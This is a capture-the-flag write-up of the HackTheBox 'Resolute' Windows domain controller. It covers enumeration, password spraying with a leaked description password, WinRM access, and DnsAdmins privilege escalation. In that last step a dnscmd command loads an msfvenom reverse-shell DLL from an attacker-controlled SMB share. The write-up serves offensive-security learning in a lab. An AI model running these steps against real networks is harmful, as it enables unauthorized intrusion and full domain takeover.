 ```yaml
---
layout: post
title:	"Resolute Writeup"
date:	2020-06-06
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img1.png)

I had some problems the last week and couldn't publish this writeup I wrote in Decembre.

### User Flag

Let’s start by enumerating all the service on the machine with a TCP scan:

~~~
root@kali:~# nmap -T4 -sS 10.10.10.169 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 06:56 EDT
Nmap scan report for 10.10.10.169
Host is up (0.056s latency).
Not shown: 65511 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49687/tcp open  unknown
49709/tcp open  unknown
49873/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 38.71 seconds

~~~

Using enum4linux, we find a lot of users:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img2.png)

There is an interesting Description for the user Marko, it seems that the Administrator have put the user password in the description.
Using the credenziali marko:Welcome123! We are not able to log in smb:


~~~
root@kali:~# smbclient -L \\10.10.10.169 -U marko
Enter WORKGROUP\marko's password: 
session setup failed: NT_STATUS_LOGON_FAILURE

~~~

We can try to save all the users in a file and then use the same password for all of them. For this purpose, I used Crack Map Exec.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img3.png)

And yes, we have an access for the user melanie. Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can open a powershell sessione on the machine.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img4.png)

After some enumeration, we can find a hidden directory PSTranscripts in C:\.

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img5.png)

Inside the subdirectory 20191203 there is a txt file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img6.png)

The file contains the password for the user ryan:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img7.png)

### Root Flag

With evilwinrm, we can access as ryan. The user ryan, is member of the group “MEGABANK\DnsAdmins”. There is a famous privilege escalation when an user is member of DnsAdmins, the attack is described [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise). We need to create our custom DLL, we can use msfvenom to create a reverse shell in a DLL file:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img8.png)

Then, we can use Impacket to run a smb server to share our custom DDL:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img9.png)

Inject our custom DLL and stop and run again the dns service with the following command:

~~~
dnscmd Resolute /config /serverlevelplugindll \\10.10.14.27\SYRION\syrion.dll
sc.exe \\Resolute stop dns
sc.exe \\Resolute start dns
~~~

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img10.png)

And we get a reverse shell with System privilege:

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img11.png)

![Screenshot]({{ site.baseurl }}/images/2020-06-06-htb-resolute/img12.png)

